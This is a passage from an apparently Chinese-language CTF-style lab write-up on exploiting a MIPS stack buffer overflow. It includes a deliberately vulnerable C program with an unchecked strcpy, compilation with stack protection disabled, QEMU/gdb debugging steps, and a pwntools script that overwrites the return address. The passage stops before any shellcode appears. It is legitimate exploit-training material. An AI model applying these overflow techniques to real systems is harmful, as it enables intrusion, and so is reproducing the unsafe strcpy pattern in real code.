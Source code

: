 ```c
printf("Usage: stack_bof_01 <argument>\r\n-By b1ack0wl\r\n");
exit(1);
} 


printf("Welcome to the Second BoF exercise! You'll need Shellcode for this! ;)\r\n\r\n"); 
strcpy(buf, argv[1]);

printf("You entered %s \r\n", buf);
printf("Try Again\r\n");

return 0;
}
```
安装交叉编译工具
```bash
sudo apt-get update
sudo apt-get install binutils-mipsel-linux-gnu
sudo apt-get install gcc-mipsel-linux-gnu
```
编译上面的源码
```bash
mipsel-linux-gnu-gcc -fno-stack-protector stack_bof_02.c -o stack_bof_02
```
程序保护
![image-20201028025116416](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028025118.png)
代码逻辑很简单，在 strcpy 的地方有一处栈溢出。

> 程序调试
`qemu-mipsel-static -g 1234 -L ./mipsel ./vuln_system  PAYLOAD`
-g 指定调试端口， -L 指定 lib 等文件的目录，当程序起来之后
`gdb-multiarch stack_bof_02` 运行如下命令，然后在 gdb 里运行 `target remote 127.0.0.1:1234` 即可挂上调试器
![image-20201028032102193](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028032104.png)
> 控制 PC
![image-20201028030936453](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028030938.png)
返回地址位于 $sp+532 , buf 位于 $fp+24
即 padding 为 `pay += b'a'*508`
```python
# padding :532 - 24 = 508
from pwn import *

context.log_level = 'debug'

pay =  b''
pay += b'a'*508
pay += b'b'*4

# with open('payload','wb') as f:
#     f.write(pay)

p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
# p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02'])
pause()
p.interactive()
```
如下图所示，即可控制 ra 寄存器，进而控制 PC
![image-20201028031118603](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028031120.png)
> 查找使用的 gadget 完成 ret2shellcode
由于程序没有开启 PIE 等 保护，所以我们可以直接在栈上注入 shellcode，然后控制 PC跳转到栈上

